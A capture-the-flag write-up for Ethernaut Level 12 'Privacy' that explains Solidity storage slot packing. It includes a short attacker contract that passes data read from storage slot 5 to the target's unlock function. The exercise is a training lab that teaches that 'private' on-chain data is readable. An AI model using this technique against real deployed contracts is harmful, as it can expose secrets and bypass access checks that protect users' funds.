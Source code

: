 <div align="center">

<img src="../assets/levels/12-privacy.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 12 - Privacy</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [References](#references)

## Objectif

<img src="../assets/requirements/12-privacy-requirements.webp" width="800px"/>

Requires a good understanding of how storage works in solidity, and how to access it.

## Solution

Below is the break up of how the state variables fit into different slots.

```
// Slot 0
bool public locked = true;

// Slot 1
uint256 public ID = block.timestamp;

// Slot 2
uint8 private flattening = 10;

// Slot 2
uint8 private denomination = 255;

// Slot 2
uint16 private awkwardness = uint16(block.timestamp);

// Slot 3, 4, 5
bytes32[3] private data;
```

Basically, the info stored at slot 5 is to be passed to the unlock function to clear the level.
Note the usage of `call` with `abi.encodeWithSignature`

```java
contract PrivacyAttack {

	event Response(bool success, bytes data);


	function bytes32ToBytes16(bytes32 data, address privacyContract) public {

		bytes16 convertedBytes = bytes16(data);



	// one way would be to import the abi (which on remix can be done by pasting the code into a file and compiling it)

	// then import it into this contract, create an object and then call

	// method2 would be use call on its address (since we know the function already)

		(bool success, bytes memory data) = privacyContract.call(

			abi.encodeWithSignature("unlock(bytes16)", convertedBytes)

		);



		emit Response(success, data);



		}

}
```

## Takeaway

```
# Storage
- 2 ** 256 slots
- 32 bytes for each slot
- data is stored sequentially in the order of declaration
- storage is optimized to save space. If neighboring variables fit in a single 32 bytes, then they are packed into the same slot, starting from the right

# Format of encodeWithSignature: endocdeWithSignature(functionName("function param type)", param)
```

## References

- https://solidity-by-example.org/hacks/accessing-private-data/
- https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
